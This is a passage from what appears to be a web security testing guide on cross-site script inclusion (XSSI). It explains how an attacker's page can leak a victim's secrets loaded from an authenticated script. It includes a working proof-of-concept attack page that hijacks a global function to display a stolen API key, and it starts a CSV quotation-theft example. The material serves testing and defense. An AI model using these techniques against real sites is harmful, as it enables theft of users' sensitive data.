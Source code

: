 In this example, a victim is authenticated with `victim.com`. An attacker lures the victim to `attackingwebsite.com` via social engineering, phishing emails, etc. The victim's browser then fetches `api.js`, resulting in the sensitive data being leaked via the global JavaScript variable and displayed using `innerHTML`.

### 2. Sensitive Data Leakage via Global Function Parameters

This example is similar to the previous one, except in this case `attackingwebsite.com` uses a global JavaScript function to extract the sensitive data by overwriting the victim's global JavaScript function.

Here are the contents of `https://victim.com/internal/api.js`:

```javascript
(function() {
  var secret = "supersecretAPIkey";
  window.globalFunction(secret);
})();
```

The attack site, `attackingwebsite.com`, has an `index.html` with the following code:

```html
<!DOCTYPE html>
<html>
  <head>
    <title>Leaking data via global function parameters</title>
  </head>
  <body>
    <div id="result">
    </div>
    <script>
      function globalFunction(param) {
        var div = document.getElementById("result");
        div.innerHTML = "Your secret data: <b>" + param + "</b>";
      }
    </script>
    <script src="https://victim.com/internal/api.js"></script>
  </body>
</html>
```

There are other XSSI vulnerabilities that can result in sensitive data leakage either via JavaScript prototype chains or global function calls. For more on these attacks, see [The Unexpected Dangers of Dynamic JavaScript](https://www.usenix.org/system/files/conference/usenixsecurity15/sec15-paper-lekies.pdf).

### 3. Sensitive Data Leakage via CSV with Quotations Theft

To leak data the attacker/tester has to be able to inject JavaScript code into the CSV data. The following example code is an excerpt from Takeshi Terada's [Identifier based XSSI attacks](https://www.mbsd.jp/Whitepaper/xssi.pdf) whitepaper.

```txt
HTTP/1.1 200 OK
Content-Type: text/csv
Content-Disposition: attachment; filename="a.csv"
Content-Length: xxxx

1,"___","aaa@a.example","03-0000-0001"
2,"foo","bbb@b.example","03-0000-0002"
...
98,"bar","yyy@example.net","03-0000-0088"
99,"___","zzz@example.com","03-0000-0099"
```
